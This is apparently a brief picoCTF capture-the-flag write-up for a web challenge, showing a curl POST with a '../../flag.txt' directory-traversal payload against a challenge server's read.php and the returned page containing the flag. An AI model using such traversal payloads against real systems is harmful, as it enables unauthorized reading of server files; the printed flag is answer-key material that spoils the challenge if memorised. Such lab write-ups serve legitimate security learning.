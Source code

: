 1. Look at the structure of the requests being made. We find that a POST request is made to `http://saturn.picoctf.net:56978/read.php` with the data `filename=<filename>&read=`
2. Do some basic file travelsal
```
curl -d "filename=../../../../../../../../../../../flag.txt&read="  http://saturn.picoctf.net:56978/read.php
```
```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}<br>  </body>
</html>
```
